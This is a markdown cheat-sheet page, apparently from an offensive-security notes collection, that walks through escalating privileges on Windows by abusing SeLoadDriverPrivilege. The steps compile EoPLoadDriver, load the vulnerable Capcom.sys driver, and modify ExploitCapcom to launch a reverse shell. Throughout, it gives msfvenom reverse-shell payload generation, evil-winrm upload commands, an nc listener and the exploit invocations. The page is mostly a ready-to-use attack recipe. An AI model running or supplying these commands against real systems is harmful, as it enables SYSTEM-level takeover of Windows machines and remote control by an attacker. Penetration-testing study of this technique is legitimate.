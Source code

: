 ```yaml
---
title: "SeLoadDriverPrivilege"
date: 2024-7-18
tags: ["Exploitation", "SeLoadDriverPrivilege", "Privilege Escalation", "Windows", "Reverse Shell"]
---
```


### Abuse #1: Install malicious driver

#### 1. Compile eoploaddriver

```console
+---------------------------------------------------------------------------------------+
| 1. Open Visual Studio 2022                                                            |
| 2. Create a new project                                                               |
| 3. Project Template : C++ Console App                                                 |
| 4. Project Name     : Eoploaddriver                                                   |
| 5. Replace code     : eoploaddriver.cpp                                               |
| 6. Remove header    : `include "stdafx.h"`                                            |
| 7. Release -> x64                                                                     |
| 8. Build   -> Build Solution                                                          |
| 9. Exported to C:\Users\user\source\repos\Eoploaddriver\x64\Release\Eoploaddriver.exe |
+---------------------------------------------------------------------------------------+
```

<small>*Ref: [eoploaddriver.cpp](https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp)*</small>

#### 2. Download Capcom.sys

[Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)

#### 3. Compile ExploitCapcom

```console
+----------------------------------------------------------------------------------------+
| 1. Double click ExploitCapcom.sln                                                      |
| 2. Replace the payload to `TCHAR CommandLine[] = TEXT("C:\\Windows\\Tasks\\rev.exe");` |
| 3. Release -> x64                                                                      |
| 4. Build   -> Build Solution                                                           |
| 5. Exported to .\x64\Release\ExploitCapcom.exe                                         |
+----------------------------------------------------------------------------------------+
```

<small>*Ref: [ExploitCapcom](https://github.com/tandasat/ExploitCapcom/tree/master/ExploitCapcom)*</small>

#### 3. Create stageless payload

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f exe -o rev.exe
```

#### 4. Upload

```console
# For example (evil-winrm)
upload Eoploaddriver.exe C:\ProgramData\Eoploaddriver.exe
```

```console
upload Capcom.sys C:\ProgramData\Capcom.sys
```

```console
upload ExploitCapcom.exe C:\ProgramData\ExploitCapcom.exe
```

```console
upload rev.exe C:\ProgramData\rev.exe
```

#### 5. Exploit

```console
# Start a nc listener
rlwrap nc -lvnp <LOCAL_PORT>
```

```console
C:\ProgramData\Eoploaddriver.exe System\CurrentControlSet\test C:\ProgramData\Capcom.sys
```

```console
C:\ProgramData\ExploitCapcom.exe
```
